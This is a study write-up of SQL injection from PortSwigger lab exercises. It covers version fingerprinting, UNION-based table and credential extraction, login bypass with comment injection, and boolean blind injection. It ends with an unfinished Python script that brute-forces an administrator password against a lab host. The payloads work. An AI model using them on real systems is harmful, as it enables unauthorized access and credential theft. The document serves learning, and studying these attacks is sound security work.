# SQL Injection (11/18)

[https://portswigger.net/web-security/sql-injection/cheat-sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

# What is SQL?

SQL (Standard Query Language) is a language designed to perform queries and interact with data stored tables within relational databases. There are many SQL databases available out there, being MySQL the most used.

# What is SQL Injection?

An SQL Injection attack typically occurs when an application doesn’t properly sanitize user input from a given field and that input is used within a SQL query, allowing attackers to interact with and modify the query, potentially viewing, modifying and deleting data that is stored in the web server.

# Exploiting

## Examining the database

As some implementations of SQL use slightly different syntax, it’s usually good to gather information about the database in order to exploit it properly.

### **Querying the database type and version on Oracle**

On this lab, we are able to perform a `UNION` attack to retrieve the banner from the Oracle SQL database. It would usually go like `SELECT * FROM v$version`, but I had to adapt it to fit the same number of columns as the original query, retrieving only the banner. 



### **Querying the database type and version on MySQL and Microsoft**

Here, version query is `SELECT @@version`, and the comment syntax also changes. I decided to put it into a subquery.



### **Listing the database contents on non-Oracle databases**

We are able to identify the database type by inputting a query that returns PostgreSQL database version. 


We then get the names and types of the tables in the database. We could improve that query by also including a WHERE clause to only retrieve the tables that are not built-in.



We then get the column names and data types from the table we previously discovered.



This allows us to query for the administrator’s login credentials directly.



### **Listing the database contents on Oracle**

Oracle has a different way for showing database information.

Getting table names:



Getting column names from table:



Finally getting administrator’s password.



## Using SQLi to retrieve hidden data

This application uses a query that might look like the following:

`SELECT * FROM products WHERE category = Food & Drink AND released = 1`

This query selects all items from a table called products that match the specified category and have been released.



We are able to change the query and add `'OR 1=1--`, modifying the query to `SELECT * FROM products WHERE category = 'Food & Drink' OR 1=1 --' AND released = 1`. The single quote character is used to separate the category from our logic expression, and the double dash is used to comment the rest of the query. This will result in the application returning all the products where either the category matches “Food & Drink” or 1 is equal to 1. As 1 is always equal to 1, the result is gonna be the retrieval of all products.



## Bypassing authentication

The following images are from an application that uses SQL to authenticate users. The query looks like this: `SELECT * FROM users WHERE username = 'username' AND password = 'password'`. If we enter `administrator'--` and a random password, the query will be `SELECT * FROM users WHERE username = 'administrator'--' AND password = '<random-password>'`. This means that the checking process for the password will be ignored and we will be able to access the administrator account.





## UNION attacks

UNION is an SQL statement that allows queries to be appended to the original one. We can use that statement to try and retrieve content from tables outside of the current scope.

For a `UNION` query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

### Checking number of columns with `ORDER BY` clause

In order to discover the number of columns returned we can use the `ORDER BY` clause. This clause serves the purpose of ordering the results (numerically or alphabetically) in ascending or descending order, being ascending the default behavior. The cool thing here is that besides accepting the column name, it also accepts the index, so we don’t actually need to know the names to use it.

Here we can see a table with seven columns. If we include `ORDER BY 3` in the statement, the data will be sorted based on the ascending alphabetic order of the `ContactName` column.



However, if we enter a column index that surpasses the actual number of columns in the table, we get an error back. 



We can take advantage of that to know that the table actually contains seven columns, and then include another seven columns in our second query, after the `UNION` clause.

### Checking number of columns with `NULL` values

In some cases you are also able to check the number of columns by querying for `NULL` values. As `NULL` is compatible to every data type, this won’t fall into the different data types error.



Here, as the number of nulls doesn’t match the number of columns in the original query, the application returns a certain error.



When the number of nulls matches the one at the original query, which in this case is three, the application returns an additional row with no values in it. However, sometimes the only difference might be a different error message, or even return the same error, which would cause the method to be ineffective. 

If the database demands that queries include an existing table, you could try entering the name of the original one. The payload would look like the following:

`' UNION SELECT NULL,NULL,NULL FROM Table --`



*Notice the extra row after the labels*

In case you didn’t know the name of the current table or other tables, you would need to perform prior queries in order to try leaking table names.

### Database-specific syntax

When attacking an Oracle database, every `SELECT` query must also include a `FROM` statement specifying a valid table. Oracle has a built-in table called `DUAL`, which can be included in payloads for the previous method. Other databases can also include different built-in tables.

`' UNION SELECT NULL FROM DUAL —`

### Checking data type by sending data on alternate columns

After gaining knowledge about the amount of columns being returned using the NULL technique, we are able to check if the data type is string (or compatible with string) by sending multiple payloads containing one character, e.g:

`' UNION SELECT 'A', NULL, NULL`

`' UNION SELECT NULL, 'A', NULL`

`' UNION SELECT NULL, NULL, 'A'`



When a column that matches the data type of our payload is reached, the response will probably have a row containing our data in one of the column, or return a different error message.



After discovering both the number of columns being fetched and the data types, you can try querying for data in other existent tables. In a scenario where the injection point is a `WHERE` clause, the response retrieves two columns containing string values, and you know that there is another table in the database called `users` with matching columns, a suitable payload would be `' UNION SELECT username, password FROM users --`.

### **Retrieving multiple values in a single column**

There might be cases when the data in the table that you want to retrieve the contents from might not meet the requirements for a normal `UNION SELECT` query to work. In this cases, some adjustments are possible.

Here, as I identified that the original query retrieves two columns, carrying integer values in the first and strings in the second, I was able to select the literal value `1` for the first one and concatenate the strings from both the `username` and the `password` columns into a single column for the second column in the final result.



`' UNION SELECT 1,username||'//'||password FROM USERS --`

## Blind SQL Injection

Blind SQL Injection attacks are the ones where the application doesn’t return the queried data directly in the response, but might still allow attackers to perform the queries and know that they’ve worked.

### **Blind SQL Injection with conditional responses**

Those are typically referred as boolean-based SQL Injection attacks, as they rely on the injection of a conditional operations to have some kind of response about how the server and the database is dealing with the payloads.

In this scenario, the injection point is the `TrackingId` cookie. We already know that there’s a table in the database called users, with columns called `username` and `password`. Our goal is to get the password of the `administrator` user in order to log into their account.



Here, the highlighted welcome back message is only displayed if the conditional operation evaluated to true, since the `AND` operator will now become attached to the original `WHERE` clause.

The end query might look something like the following:

`SELECT * FROM tracking_cookies WHERE cookie = ‘kKz65Ju9ILkHDdPc’ AND 1=1--’`

Our attack will be consisted in guessing the administrator’s password character by character using comparison operations.



For this lab, I decided not to use burp to find the password.

My initial idea was to create a python script that used binary search in it, so I didn’t have to use an `=` operator for every guess. Unfortunately, I’m not that good of a programmer yet, so I decided to give this up for now and do it the primate way. 

```python
import requests

host = '0adf002d04d0d835822415fe00cc0008.web-security-academy.net'

possible_chars = "0123456789abcdefghijklmnopqrstuvwxyz"
formed_password = "1r"
last_found_char = "r"

while last_found_char != "":
    for char in possible_chars:
        attempt = formed_password + char
        payload = f"' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, {len(attempt)}) = '{attempt}' --"
